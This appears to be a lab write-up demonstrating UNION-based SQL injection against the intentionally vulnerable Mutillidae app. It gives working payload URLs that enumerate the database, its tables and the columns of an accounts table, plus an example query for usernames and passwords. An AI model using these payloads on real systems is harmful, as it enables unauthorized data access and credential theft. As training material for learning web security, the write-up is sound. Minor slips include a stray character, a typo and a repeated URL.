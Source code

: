 http://192.168.171.133/mutillidae/index.php?page=user-info.php&username=dharsan%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

<img width="855" alt="image" src="https://github.com/user-attachments/assets/9dd4a26a-869e-4e78-94bf-768ff7a97bda">

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.171.133/mutillidae/index.php?page=user-info.php&username=dharsan%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

<img width="849" alt="image" src="https://github.com/user-attachments/assets/25d0d9a2-404f-46ba-9b5b-e5d2e5926268">


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




<img width="863" alt="image" src="https://github.com/user-attachments/assets/1b98e368-7f88-4fea-bf63-e232689409c1">

The column names of the accounts is displayed below for the following url:

c

![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)





Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.171.133/mutillidae/index.php?page=user-info.php&username=dharsan%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

<img width="859" alt="image" src="https://github.com/user-attachments/assets/f7e807b5-8ffb-4de8-a6ad-bdb786832ceb">
